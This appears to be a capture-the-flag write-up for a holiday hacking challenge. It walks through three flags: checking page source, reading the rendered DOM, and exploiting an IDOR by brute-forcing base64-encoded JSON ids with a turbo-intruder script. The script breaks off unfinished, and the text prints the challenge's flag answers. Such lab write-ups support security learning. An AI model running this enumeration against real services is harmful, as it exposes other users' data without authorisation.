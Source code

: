 `flag{48104912-28b0-494a-9995-a203d1e261e7}`

Flag2 - DOM Flag
---------------------
Following the clue from flag1 let's visit `/s3cr3t-ar3a` just to be greeted by a "Page Moved" message.

{F1139514}
*Do I know where to look?*🤔

I've tried a couple of options to actually get this flag, purely based on what made sense to me. From "common" hacker endpoints (`/1337`, 1337-encoded endpoints, etc...) to random changes to the current endpoint, but none of those worked. As a reminder from flag1, always check the page source of whatever you're looking at. This time around though, don't forget that everything that javascript changes/adds/updates before the page is fully loaded will not be present in the page source(Ctrl+U). By inspecting(Ctrl+Shift+I) the fully rendered page and quickly Ctrl+f-ing for `flag` we can clearly (not from the picture below) see our 2nd flag.

{F1139537}

`flag{b7ebcb75-9100-4f91-8454-cfb9574459f7}`

Flag3 - People Rater
---------------------
Day3 - so far so good. It's a smooth ride in what is supposed to be the grinch's lair (yeah right 🤣). Something in the air makes me think it won't be this easy moving forward though. Only time will tell (I actually already know it won't be this easy cause I'm writing this after completing the CTF but yeah you get the point).
I can now see a bunch of blue buttons. By studying the behavior of the page we can see alerts popping up every time we click one of them and we also have the possibility to load more blue inputs. Let's analyze the GET request that happens every time we click one of these famous buttons.
```http
GET /people-rater/entry?id=eyJpZCI6NH0= HTTP/1.1
Host: hackyholidays.h1ctf.com
Connection: close
```
mmm...It looks like the `base64 encoded` id parameter is responsible for identifying a JSON object on the backend as we can observe from the response

```json
{"id":"eyJpZCI6NH0=","name":"Ruth Ward","rating":"Disgusting"}
```

The parameter itself decodes to `{"id":4}` and at this point is now pretty clear to me that we're facing an IDOR. The way we approach it can be different but I'll guide you through what I decided to do. 
The rain was pouring outside, my thoughts were pretty much syncing with the slow falling of the raindrops on the concrete balcony (idk what this means it just sounds like something you'd read in a book ). I decided to get the easy way out. Bruteforce it is. I prepared a quick script for [turbo-intruder](https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack)  that copies the behavior we just analyzed, cycle through a range of numbers and look for a flag in the responses

```python
import base64
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    for i in range(0, 256):
        engine.queue(target.req, base64.urlsafe_b64encode("{\"id\":" + bytes(i) + "}"))


def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length and req.response
```